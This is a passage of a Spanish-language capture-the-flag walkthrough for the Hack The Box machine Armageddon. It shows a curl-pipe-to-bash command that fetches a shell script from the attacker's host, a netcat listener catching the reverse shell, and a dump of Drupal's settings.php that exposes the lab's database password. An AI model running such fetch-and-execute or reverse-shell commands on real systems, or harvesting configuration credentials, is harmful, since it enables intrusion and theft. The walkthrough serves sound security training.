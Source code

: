 Realizaremos desde el equipo víctima la petición con `cURL` al script que estamos compartiendo para que sea ejecutado a través de una `bash`.

```bash
armageddon.htb>> curl http://10.10.16.3/shell.sh|bash
```

Verificamos que logramos obtener acceso al sistema correctamente. El problema es que el usuario actual que disponemos `apache`, no tiene una shell como `sh` o `bash`, por lo tanto la consola que disponemos es bastante limitada.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.233] 39100
bash: no job control in this shell
bash-4.2$ echo $SHELL
echo $SHELL
/sbin/nologin
```

## Initial Access

### Information Leakage

Enumeraremos el directorio `/var/www/html/sites/default` en el cual nos encontraremos con un archivo de configuración `settings.php` el cual contiene las credenciales de acceso al `MySQL` de la base de datos que está utilizando `Drupal`.

```bash
bash-4.2$ pwd
/var/www/html/sites/default
bash-4.2$ cat settings.php
<?php

/**
 * Database settings:
 *
 * The $databases array specifies the database connection or
 * connections that Drupal may use.  Drupal is able to connect
 * to multiple databases, including multiple types of databases,
 * during the same request.
 *
 * Each database connection is specified as an array of settings,
 * similar to the following:
 * @code
 * array(
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
